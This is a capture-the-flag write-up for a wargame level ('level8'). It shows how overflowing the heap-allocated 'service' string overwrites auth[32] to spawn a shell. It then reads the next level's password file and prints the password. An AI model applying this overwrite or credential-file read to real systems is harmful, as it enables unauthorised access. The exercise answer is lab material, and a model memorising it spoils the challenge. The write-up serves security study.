 # level8

The program loops infinitely and do this steps:

- The program prints two pointers, `auth` and `service` which are `NULL` at beginning.
- The program reads from stdin using `fgets`.
- Then the program performs a serie of conditionnal call of `malloc`, `strcpy`, `strdup` functions.
- Finally, the program runs a shell if `auth[32]` is not equal to `zero`

## Goal
Modify the value of `auth[32]` to get a shell.

## Step 1

```console
level8@RainFall:~$ ./level8
(nil), (nil)
auth
0x804a008, (nil)
service
0x804a008, 0x804a018
```
- `auth` points to `0x804a008`
    - `0x804a008` contains what is after `auth ` in the input (if lenght is <= 30 bytes)
- `service` points to `0x804a018`
    - `0x804a018` contains what is after `servic`, here it contains `e` 


### Solution
Because `service` is stored after `auth` in memory, we can write many characters in `service` to overwrite `auth[32]`.

## Step 2
Write `login` in stdin to verify if `auth[32]` is not equal to `zero` and so, run a shell.

## Exploit
```console
level8@RainFall:~$ ./level8
(nil), (nil)
auth
0x804a008, (nil)
servicblablablablablablablablablabla
0x804a008, 0x804a018
login
$ cat /home/user/level9/.pass
c542e581c5ba5162a85f767996e3247ed619ef6c6f7b76a59435545dc6259f8a
```

